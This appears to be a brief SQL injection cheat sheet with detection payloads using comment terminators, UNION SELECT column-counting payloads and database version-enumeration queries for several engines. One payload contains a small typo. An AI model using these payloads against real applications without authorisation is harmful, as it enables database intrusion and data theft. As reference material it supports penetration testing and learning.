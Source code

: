 # Entry point
if the response is unchanged after one of these payloads - the parameter might be vulnerable to SQLi.

Oracle / MSSQL / PostgreSQL / MySQL / SQLite
```
 -- 
' -- 
" -- 
 /*
' /* 
" /* 
```
MySQL
```
 # 
' # 
" # 
```
<code style="color : green">SELECT role,fullname FROM users WHERE id='</code>
example query: SELECT role,fullname FROM users WHERE id='1' # '
# UNION attack
if data is returned in the response, the database can be enumerated using a union attack.
in this case, the first step is to figure out how many columns are returned by the query.
personally I like to supply an id or a username that does not exist so no row is returned,
and then unioning a row of my choice until it is returned by the application:
```
-1' UNION SELECT 1; # 
-1' UNION SELECT 1,2: # 
-1' UNION SELECT 1,2,3; # and so on ...
```
after some of the numbers we supplied are reflected in the response, we can replace them with
other builtin methods and attributes to further enumerate the database.

example query:
```diff
@@ SELECT name,issue_date,valid_until FROM tickets WHERE ticket_id=" @@ - -1" UNION SELECT 1,2,3 /* @@ " @@
```
# Version enumeration

PostgreSQL / MySQL / MariaDB
```
SELECT version()
```
MSSQL / MySQL
```
SELECT @@version
```
SQLite
```
SELECT sqlite_version()
```
Oracle
```
SELECT banner FROM v$version
SELECT version FROM v$instance
```

